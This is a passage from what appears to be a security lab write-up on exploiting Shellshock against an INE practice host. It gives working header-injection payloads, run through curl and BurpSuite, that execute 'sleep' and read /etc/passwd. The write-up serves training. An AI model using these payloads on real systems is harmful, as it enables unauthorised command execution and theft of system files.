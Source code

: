 - Or we can still use `curl` to verify the vulnerability, `time curl http://demo.ine.local/gettime_cgi` and `time curl -H "User-Agent: () { :;}; /bin/sleep 10" http://demo.ine.local/gettime_cgi`

  <img width="1343" height="415" alt="4-2  Shellshock curl time" src="https://github.com/user-attachments/assets/1e29bada-6d64-4df0-a067-54250d816225" />

  From the time values returned of the two command we can see the obvious difference. As in the second command I execute `/bin/sleep 10` bash command, there's significate difference in the two response time. So we are sure now that the URL is vulnerable.
- Configure the proxy and launch BurpSuite and enable intercept. Access the vulnerable directory, `/gettime.cgi`.

  <img width="1512" height="531" alt="4-2  Shellshock poxy" src="https://github.com/user-attachments/assets/11db80e5-0c12-428b-879b-f7462da98e9a" />

- Sent the request captured to Repeater. Modify the User-Agent field of the request to `() { ;: }; echo; echo; /bin/bash -c 'cat /etc/passwd'` and click send. Now we can see the code execution is successful and results returned can be found in Response.

  <img width="1206" height="722" alt="4-2  Shellshock exploit" src="https://github.com/user-attachments/assets/6f429447-b391-4656-9817-b2fcdb29374c" />

- Again, here we can also use `curl` to do exploit, `curl http://demo.ine.local/gettime.cgi -H "User-Agent: () { :;}; echo; echo 'Content-Type: text/plain'; echo; /bin/cat /etc/passwd"`. 

  <img width="1480" height="682" alt="4-2  Shellshock curl exploit" src="https://github.com/user-attachments/assets/a531f4c8-067e-49d3-9c5c-095d1a2a8b9c" />

# Key Finds

We exploit the vulnerability in both two ways, a simple way with automatic scripts and tools, and a challenging way with basic tools only.
